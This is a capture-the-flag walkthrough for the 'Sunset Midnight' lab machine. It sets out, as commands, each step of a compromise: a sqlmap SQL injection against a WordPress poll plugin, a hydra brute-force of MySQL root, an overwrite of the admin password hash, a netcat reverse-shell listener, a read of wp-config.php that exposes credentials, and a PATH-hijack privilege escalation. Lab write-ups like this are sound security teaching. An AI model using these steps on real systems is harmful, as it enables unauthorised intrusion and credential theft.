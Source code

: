 # Sunset Midnight

***

IP=192.168.155.88

| PORT     | STATE | SERVICE |
| -------- | ----- | ------- |
| 22/tcp   | open  | ssh     |
| 80/tcp   | open  | http    |
| 3306/tcp | open  | mysql   |

## NMAP

```perl
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open   http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3036/tcp closed hagel-dump
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```perl
whatweb http://$IP
http://192.168.155.88 [301 Moved Permanently] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.155.88], RedirectLocation[http://sunset-midnight/], UncommonHeaders[x-redirect-by]
```

### /etc/hosts

```txt
IP  midnight-host
```

### Wordpress

WordPress 5.4.2

#### simply-poll-master

vulnerable to sqli

```bash
sqlmap -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2"
```

## Mysql 3306

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP mysql -t 5
```

> root:robert

```bash
echo -n "password" | md5sum
5f4dcc3b5aa765d61d8327deb882cf99
```

```mysql
use wordpress_db;
update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" where id=1;
```

## Login wordpress



<figure><img src="../../.gitbook/assets/Pasted image 20231022130312 (1).png" alt=""><figcaption></figcaption></figure>

```bash
nc -lvnp 1234
```

## PrivEsc

```bash
cat /var/www/html/wordpress/wp-config.php
```

jose:645dc5a8871d2a4269d4cbe23f6ae103

### Unknown SUID binary

```bash
strings /usr/bin/status
```



<figure><img src="../../.gitbook/assets/Pasted image 20231022131717.png" alt=""><figcaption></figcaption></figure>

### Path hijacking

```bash
export PATH=/tmp/:$PATH
cd /tmp
touch service
echo "/bin/sh" > service
chmod +x service
/usr/bin/status
```
